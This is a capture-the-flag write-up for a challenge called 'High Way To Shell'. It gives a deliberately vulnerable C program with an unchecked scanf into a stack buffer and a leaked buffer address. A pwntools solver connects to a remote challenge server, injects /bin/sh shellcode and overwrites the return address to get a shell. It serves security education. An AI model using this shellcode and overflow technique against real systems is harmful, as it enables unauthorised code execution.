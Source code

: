 # High Way To Shell
![challenge](../images/High_way_to_shell.png)

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	return setvbuf(stdin, NULL, _IONBF, 0);
}

int main(){
    setup();
    char buf[50];
    printf("I'm going to be generous with you : %p",&buf);
    printf("\nDo Your magic:");
    scanf("%s", &buf);
    return 0;
}
```

## Overview
Before diving into the exploitation process let's check the security of the binary.<br>
![checksec](../images/High_way_to_shell_checksec.png)

We can see that ```NX``` is disabled. So we can inject a Shellcode into the stack when prompted for input. Then we hijack the code execution by overwriting the saved return pointer on the stack and modifie it to point to our shellcode and once the return pointer got popped into RIP, it pointed at our shellcode. This causes the program to execute our instructions, giving us a shell for arbitrary command execution.

## Solver
```py
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF('./main')
#p = process(elf.path)
p = remote("20.216.40.184", 10008)

p.recvuntil(b"I'm going to be generous with you : ")
leak = int(p.recvline().strip(),16)
log.info(f"Buffer leak ==> {hex(leak)}")

pay = b"\x50\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
pay += b'a'*(72 - len(pay))
pay += p64(leak)


p.sendafter(b"Do Your magic:",pay)
p.interactive()
p.close()
```
